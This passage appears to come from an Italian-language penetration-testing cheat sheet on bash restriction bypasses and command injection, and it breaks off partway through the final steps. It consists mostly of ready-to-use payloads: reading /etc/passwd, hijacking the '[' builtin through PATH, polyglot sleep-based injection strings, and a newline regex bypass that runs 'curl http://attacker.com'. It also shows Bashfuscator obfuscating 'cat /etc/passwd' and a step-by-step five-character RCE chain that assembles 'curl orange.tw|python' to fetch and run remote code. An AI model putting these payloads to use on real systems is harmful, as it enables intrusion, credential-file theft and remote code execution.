 ```bash
flag.txt:1: command not found: CTF{asdasdasd}

# Read file with read
while read -r line; do echo $line; done < /etc/passwd

# Get env variables
declare

# Get history
history
declare history
declare historywords

# Disable special builtins chars so you can abuse them as scripts
[ #[: ']' expected
## Disable "[" as builtin and enable it as script
enable -n [
echo -e '#!/bin/bash\necho "hello!"' > /tmp/[
chmod +x [
export PATH=/tmp:$PATH
if [ "a" ]; then echo 1; fi # Will print hello!
```
### Iniezione di comandi poliglotta
```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```
### Bypass potenziali regex
```bash
# A regex that only allow letters and numbers might be vulnerable to new line characters
1%0a`curl http://attacker.com`
```
### Bashfuscator
```bash
# From https://github.com/Bashfuscator/Bashfuscator
./bashfuscator -c 'cat /etc/passwd'
```
### RCE con 5 caratteri
```bash
# From the Organge Tsai BabyFirst Revenge challenge: https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge
#Oragnge Tsai solution
## Step 1: generate `ls -t>g` to file "_" to be able to execute ls ordening names by cration date
http://host/?cmd=>ls\
http://host/?cmd=ls>_
http://host/?cmd=>\ \
http://host/?cmd=>-t\
http://host/?cmd=>\>g
http://host/?cmd=ls>>_

## Step2: generate `curl orange.tw|python` to file "g"
## by creating the necesary filenames and writting that content to file "g" executing the previous generated file
http://host/?cmd=>on
http://host/?cmd=>th\
http://host/?cmd=>py\
http://host/?cmd=>\|\
http://host/?cmd=>tw\
http://host/?cmd=>e.\
http://host/?cmd=>ng\
http://host/?cmd=>ra\
http://host/?cmd=>o\
```
